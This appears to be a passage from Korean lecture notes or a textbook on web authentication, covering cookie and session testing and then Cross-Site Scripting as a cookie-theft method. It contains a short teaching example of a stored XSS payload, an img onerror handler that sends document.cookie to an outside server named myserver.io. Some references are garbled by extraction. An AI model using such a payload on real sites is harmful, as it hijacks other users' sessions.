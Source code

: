 서버를 실행하고 Insomnia를 이용하여 쿠키를 받고 보내본다. GET /set/:id 라우트로 요청을 보내면 서버는 응답 헤더의 Set-Cookie 속성에 쿠키값을 설정하여 응답하며, GET /get 요청을 보낼 때 Header 탭에서 Cookie의 값을 응답을 통해 받은 쿠키값으로 설정하여 보내면 세션에 저장된 데이터를 응답받을 수 있다.


Chrome이나 Firefox 등의 브라우저에서도 웹 서버의 동작을 확인해본다. 각 브라우저의 개발자 도구에서는 쿠키값을 확인할 수 있는데, \와 같이 개발자 도구의 Application 탭이나 Storage 탭을 이용하여 브라우저(클라이언트)가 저장하는 쿠키의 값을 확인해본다.

\subsection*{Cross-Site Scripting (XSS)}

앞에서 언급한 바와 같이 쿠키를 이용한 인증 방식은 구조적으로 보안 문제를 가지고 있으며, 세션 방식 역시 이 문제에서 완전히 자유롭지 못하다. 예를 들어 공격자가 A라는 사용자가 서버와의 통신을 위해 저장한 쿠키에 포함된 세션 ID를 탈취하고 이를 이용하여 HTTP 요청을 보내면 서버는 공격자를 사용자 A로 인식한다.

쿠키를 탈취하는 여러 방법 중 가장 기초적인 방법은 Cross-Site Scripting(XSS)이다. 공격자는 다른 사용자의 쿠키값을 공격자의 서버로 전송하는 악성 스크립트를 HTML 문서에 삽입하여 해당 문서를 열람한 사용자의 쿠키를 탈취한다. 이러한 공격은 대체로 게시글 등록 기능, 특히 HTML 작성 기능을 통해 주로 발생하며 악성 스크립트를 포함한 게시글을 열람한 사용자는 공격자에게 쿠키를 탈취당하게 된다.

\begin{codeenv}{code:xss-example}{Simple Example of XSS}\begin{verbatim}
<p>Welcome!</p>
<img src="#"
     onerror="location.href=$`http://myserver.io/get_cookie?cookie=${document.cookie}`">
\end{verbatim}
\end{codeenv}

\은 XSS 공격의 간단한 예시로, 공격자는 이러한 내용의 글을 등록하여 서버의 DB에 저장한다. 이후 다른 사용자가 이 게시물을 열람하기 위해 요청을 보내면 이 코드가 포함된 HTML 문서를 응답으로 받게되며, 렌더링 과정에서  태그의 에 해당하는 링크가 존재하지 않으므로  속성의 JS 코드가 실행된다.  객체에는 그 HTML 문서를 요청하는데 사용된 쿠키가 저장되어 있으므로 myserver.io라는 서버에 쿠키값을 그대로 전송하게 된다.

